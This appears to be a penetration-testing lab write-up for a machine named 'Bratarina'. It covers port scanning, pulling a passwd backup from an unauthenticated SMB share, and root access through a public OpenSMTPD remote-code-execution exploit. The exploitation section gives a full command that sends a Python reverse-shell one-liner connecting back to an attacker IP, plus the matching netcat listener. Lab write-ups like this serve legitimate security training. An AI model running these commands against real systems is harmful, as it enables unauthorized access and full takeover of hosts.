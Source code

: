 ```yaml
---
description: 12/1/2022
---
```


# Bratarina

## Information Gathering

Scanned all TCP ports:

```
PORT    STATE  SERVICE     VERSION
22/tcp  open   ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbdd2cea2f85c589bcfce9a338f0d750 (RSA)
|   256 e3b765c2a78e4529bb62ec301aebed6d (ECDSA)
|_  256 d55b795bce48d85746db594fcd455def (ED25519)
25/tcp  open   smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.49.175], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
53/tcp  closed domain
80/tcp  open   http        nginx 1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
|_http-server-header: nginx/1.14.0 (Ubuntu)
445/tcp open   netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-12-01T23:59:59
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: bratarina
|   NetBIOS computer name: BRATARINA\x00
|   Domain name: \x00
|   FQDN: bratarina
|_  System time: 2022-12-01T19:00:01-05:00
```

Enumerated UDP ports:

```
```

Notes:

* 80/HTTP - <mark style="color:yellow;">nginx 1.14.0</mark>
  * <mark style="color:yellow;">Lots of broken links and other functionality</mark>
  * <mark style="color:yellow;">Viewed source code</mark>
* 25/SMTP <mark style="color:yellow;">OpenSMTPD 2.0.0</mark>
  * <mark style="color:yellow;">Searchsploit returns numerous exploits</mark>
* 445/SMB <mark style="color:yellow;">Samba 4.7.6</mark>
  * <mark style="color:yellow;">Enum4linux null shares</mark>

## Enumeration

### Port 80 - HTTP (nginx 1.14.0)

Dirsearch:

```
```

### Port 445 - Samba

Enum4Linux:

```
enum4linux 192.168.175.71
```

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption><p>backups share</p></figcaption></figure>

smbclient (Null authentication)

```
smbclient '\\\\192.168.175.71\\backups'
Password:(press enter)
smb: \>get passwd.bak
```

* We see passwd.bak
* It is a backup of /etc/passwd

passwd.bak:

<figure><img src="../../../.gitbook/assets/image (11) (5).png" alt=""><figcaption><p>Contents of /etc/passwd backup</p></figcaption></figure>

## Exploitation

### OpenSMTPD 6.6.1 - Remote Code Execution

{% embed url="https://www.exploit-db.com/exploits/47984" %}
PoC
{% endembed %}

Syntax for Exploit:

{% code overflow="wrap" %}
```
python3 47984 192.168.175.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.175\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
```
{% endcode %}

Nc Listener:

```
sudo nc -lnvp 80
```

## Privilege Escalation

None, landed as root

## Proofs

<figure><img src="../../../.gitbook/assets/image (1) (11).png" alt=""><figcaption><p>Proof.txt</p></figcaption></figure>
